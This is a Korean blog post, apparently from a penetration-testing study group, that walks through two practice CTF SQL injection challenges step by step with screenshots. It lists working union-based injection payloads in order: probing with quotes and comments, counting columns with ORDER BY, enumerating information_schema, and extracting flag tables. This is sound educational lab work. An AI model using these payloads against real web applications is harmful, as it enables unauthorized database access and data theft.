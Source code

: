 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, CTF]
---
```


# SQL INJECTION 1
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)
    -> 🤔 대소문자 구분이 없구나!
2. 🫣 **~~adminer'~~**
    -> X
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    -> 🤔 like 구절이 있구나
4. 🫣 **~~a#~~**
    -> X
5. 🫣 **~~a'#~~**
    -> X
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
    -> 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
    -> 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
7. 🫣 **~~' and '1' = '1~~**
    -> X
8. 🫣 **~~%' and '1' = '1~~**
    -> X
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)

## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
    -> 💡 보이는 column이 4개니까 4개부터 시작했다.
11. **' order by 1, 2, 3, 4, 5 #**
    -> X
    -> 🤔 column의 개수가 4개구만

## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)

## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
    -> database 이름은 sqli_1이었다.

## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
    -> table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.

## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
    -> flag_table에서는 flag라는 column을 확인할 수 있었다.

21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
    -> plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.

## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)

23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)

# SQL INJECTION 2
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-14.png?raw=true)
위쪽 문제랑 보이기에는 비슷해보인다.

## SQL Query 파악
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-15.png?raw=true)
    -> 💡 보이는 column은 ID, Level, Rank Point, info
2. **normaltic' and '1' = '1**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-16.png?raw=true)
    -> 💡 ID가 입력한 그대로 보임
3. 🫣 **~~*~~**
    -> X

## column 개수 파악하기
4. **normaltic' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-17.png?raw=true)
    -> 💡 보이는 column이 4개니까 4개부터 시작했다.
5. **normaltic' order by 1, 2, 3, 4, 5 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-18.png?raw=true)
6. **normaltic' order by 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-19.png?raw=true)
7. **normaltic' order by 1, 2, 3, 4, 5, 6, 7 #**
    -> X
    -> 🤔 column의 개수가 6개구만

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. **' union select 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-20.png?raw=true)
    -> 💡 보이는 column은 6번 위치에 있었다.
10. **' union select 1, 2, 3, 4, 5, database() #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-21.png?raw=true)
    -> 💡 database 이름은 sqli_5이다.

## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    -> 💡 table 이름은 flag_honey였다.

## COLUMN 이름 확인하기
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-23.png?raw=true)
    -> 💡 column 이름은 flag였다.

## DATA 추출하기
13. **' union select 1, 2, 3, 4, 5, flag from flag_honey #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-24.png?raw=true)
    -> 😬 어쩐지 구라핑의 냄새가 나더라

## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)

    -> 🤔 왜 1개씩 밖에 안 보일까?
        -> 🤔 row가 딱 한 개다?
        -> 🤔 row를 한 개씩만 보여준다?
            -> 🤔 다른 row가 더 있는데 안 보이는 게 아닐까?
            -> 🤔 다른 row를 보려면 어떤 걸 할 수 있을까?
            
12. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-25.png?raw=true)
    -> 💡 view라는 다른 table이 보여요 좋아요
    -> 🤔 row를 한 개씩만 보여준다가 맞는 가정이겠네
13. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-26.png?raw=true)
    -> 딱 봐도 수상한 table 이름이다.

## COLUMN 이름 확인하고 DATA 추출하기 1
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-27.png?raw=true)
    -> 💡 column 이름은 flag였다.
13. **' union select 1, 2, 3, 4, 5, flag from secret #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-28.png?raw=true)
    -> 😬 아니 ㅋㅋㅋ 당했다
    -> 🤔 여기서도 역순으로 정렬해볼까?
15. **' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-29.png?raw=true)